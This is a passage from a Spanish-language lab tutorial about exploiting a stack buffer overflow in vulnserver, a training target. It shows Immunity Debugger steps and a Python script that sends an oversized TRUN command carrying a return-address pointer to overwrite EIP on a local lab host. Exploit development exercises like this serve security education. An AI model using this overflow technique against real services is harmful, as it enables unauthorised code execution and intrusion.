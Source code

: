 - En Immunity Debugger, localizar, por ejemplo, el puntero `625011af`:

- Activar el Immunity Debugger con el `vulnserver`:

- Ejecutar el siguiente código:

```bash
#!/usr/bin/python
import sys, socket

#pointers					EIP
pointer= "\xaf\x11\x50\x62"	#625011af
#pointer= "\xbb\x11\x50\x62"	#625011bb	
#pointer= "\xc7\x11\x50\x62"	#625011c7	
#pointer= "\xd3\x11\x50\x62"	#625011d3	
#pointer= "\xdf\x11\x50\x62"	#625011df	
#pointer= "\xeb\x11\x50\x62"	#625011eb	
#pointer= "\xf7\x11\x50\x62"	#625011f7	
#pointer= "\x03\x12\x50\x62"	#62501203	
#pointer= "\x05\x12\x50\x62"	#62501205	62501205

#shellcode = "A"2003" + pointer
shellcode = "A"*2002 + pointer
ip_address ='192.168.0.12'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

- Y en el Immunity Debugger, obtendremos el overwriting del EIPÑ

![alt text](/assets/images/eip-overwriting.png)
